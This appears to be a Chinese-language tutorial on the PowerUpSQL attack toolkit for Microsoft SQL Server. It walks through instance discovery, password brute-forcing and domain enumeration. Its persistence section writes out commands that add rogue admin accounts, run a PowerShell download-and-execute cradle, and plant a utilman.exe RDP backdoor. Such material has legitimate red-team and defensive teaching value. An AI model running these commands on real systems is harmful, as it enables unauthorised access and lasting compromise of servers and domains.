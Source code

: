 # 攻击MSSQL--PowerUpSQL介绍

PowerUpSQL是NETSPI开源的针对MSSQL的攻击套件，包含发现网络中mssql、爆破弱口令、利用mssql获得持久权限以及利用mssql攻击域等功能。项目地址[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)。

## 发现MSSQL实例

- 发现本地实例

![](./media/20190914154554.png)



- 通过SPN查找域内mssql实例

  ![](./media/20190914163251.png)



- 通过广播查找mssql实例

  ![](./media/20190914163514.png)

- 通过UDP查找网络内的mssql实例

  ![](./media/20190914172352.png)

接受机器名或者IP

## 获取MSSQL信息

- 获取配置信息

![](./media/20190914190619.png)

- 获取服务信息

  ![](./media/20190914154826.png)

- 登录信息

  ![](./media/20190914191015.png)

  

## 爆破口令

- 获取默认密码实例

  作者在脚本中提供了默认安装的一些实例名和默认密码，但是不包括MSSQLSERVER和SQL Express（避免账号锁定）。可以根据自身需要加入自定义的账号密码

  ![](./media/20190914172942.png)

![](./media/20190914173022.png)

- 使用字典爆破

  ![](./media/20190914184347.png)

命令的含义是通过管道爆破可以连接的发现的实例。此外，该函数还可以尝试通过Invoke-SQLOSCmd执行命令

![](./media/20190914185523.png)

## 持久性

- 启用存储过程

  在SQL Server启动时添加数据库管理账户

  ```
  Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "MSSQL2008WIN8" -NewSqlUser EvilSysadmin1 -NewSqlPass Password123!
  ```

  添加windows管理员

  ```
  Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "MSSQL2008WIN8" -NewosUser Evilosadmin1 -NewosPass Password123!
  ```

  执行 powershell命令

  ```
  Invoke-SqlServer-Persist-StartupSp -Verbose -SqlServerInstance "MSSQL2008WIN8" -PsCommand "IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/nullbind/Powershellery/master/Brainstorming/helloworld.ps1')"
  ```

  

- 写注册表

  ```
  Get-SQLPersistRegDebugger -Verbose -FileName utilman.exe -Command 'c:\windows\system32\cmd.exe' -Instance "MSSQL" -Username "sa" -Password "_PL<0okm"
  ```

  RDP后门。需要当前mssql用户有写注册表权限

  

  - 作业

    ![](./media/20190914202842.png)

  出了CMD，还支持VBScript、powershell、JScript

  ![](./media/20190914203052.png)

此外，工具还集成了一些通过mssql执行系统命令的方式

```
Invoke-SQLOSCmd
Invoke-SQLOSCmdCLR
Invoke-SQLOSCmdCOle
Invoke-SQLOSCmdPython       
Invoke-SQLOSCmdR 
```

- 触发器

  工具支持创建DDL和DML两种触发器

```
Get-SQLTriggerDdl -Instance SQLServer1\STANDARDDEV2014 -username '' -password ''
```

```
Get-SQLTriggerDml -Instance SQLServer1\STANDARDDEV2014 -DatabaseName testdb -username '' -password ''
```

可根据实际情况定义触发条件

## 获取域信息

- 当前域用户信息

  ![](./media/20190914205717.png)

- 域用户

  ![](./media/20190914205810.png)

- 组

  ![](./media/20190914210329.png)

- 域机器

  ![](./media/20190914210949.png)





更多用法可自行查看命令参数，或者查看项目wiki
